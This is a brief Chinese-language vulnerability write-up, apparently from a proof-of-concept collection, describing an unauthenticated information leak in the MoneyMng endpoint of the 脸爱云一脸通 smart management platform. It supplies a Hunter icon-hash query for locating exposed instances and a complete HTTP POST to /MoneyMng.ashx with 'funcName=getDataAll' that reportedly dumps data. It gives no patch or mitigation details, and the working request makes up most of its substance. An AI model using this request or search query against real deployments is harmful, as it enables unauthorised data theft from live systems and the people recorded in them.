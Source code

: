 # 脸爱云一脸通智慧管理平台MoneyMng存在信息泄露漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">脸爱云一脸通智慧管理平台是一套功能强大，运行稳定，操作简单方便，用户界面美观，轻松统计数据的一脸通系统。无需安装，只需在后台配置即可在浏览器登录。脸爱云一脸通智慧管理平台MoneyMng存在信息泄露漏洞。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ 脸爱云一脸通智慧管理平台

# 三、资产测绘
+ hunter`web.icon=="4f0be080512ee0b45fc90ff894b6ba60"`
+ 特征

![1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28.png](./img/pmeeBVqtGnp0G6v2/1700642739314-bb174ac2-c85b-471b-90e8-ed6c02ba5c28-869505.png)

# 四、漏洞复现
```java
POST /MoneyMng.ashx HTTP/1.1
Host: 
Content-Length: 19
Accept: application/json, text/javascript, */*; q=0.01
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.198 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

funcName=getDataAll
```

![1714290083008-d3dbe18b-ab5a-4387-8d2d-aacb9473959b.png](./img/pmeeBVqtGnp0G6v2/1714290083008-d3dbe18b-ab5a-4387-8d2d-aacb9473959b-239033.png)



> 更新: 2024-04-28 15:45:25  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/tqe4b2kisd87ki3g>